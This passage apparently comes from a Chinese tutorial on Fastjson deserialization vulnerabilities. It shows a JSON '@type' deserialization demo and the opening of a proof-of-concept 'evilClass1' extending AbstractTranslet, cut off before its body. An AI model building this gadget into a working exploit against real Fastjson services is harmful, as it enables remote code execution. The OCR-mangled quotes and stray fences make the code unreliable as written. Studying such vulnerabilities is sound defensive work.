 public void setAge(int age) {
    this.age = age;
} 
``` `}` 
```

Students有一个公有属性name和一个私有属性age。下面使用一个测试类，将json字符串反序列化成Student对象，learnFJ.java：

```
package ka1n4t.test;

import com.alibaba.fastjson.JSON;

import com.alibaba.fastjson.parser.Feature;

import com.alibaba.fastjson.JSONObject; `public class learnFJ {

public static void main(String args[]) {

String text = “{”@type":“ka1n4t.test.Student”,“name”:“ZhangSan”,“age”:123}";

Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);

System.out.println(obj1.getName());

}

}` 
```

结果：

![image](img/518165884188edcf070a123acd94bb48.png)

### 0x02 原理分析

#### 分析POC

先看一下用于反序列化的恶意类evilClass1.java:

```
package ka1n4t.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;

import com.sun.org.apache.xalan.internal.xsltc.TransletException;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;

import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {
```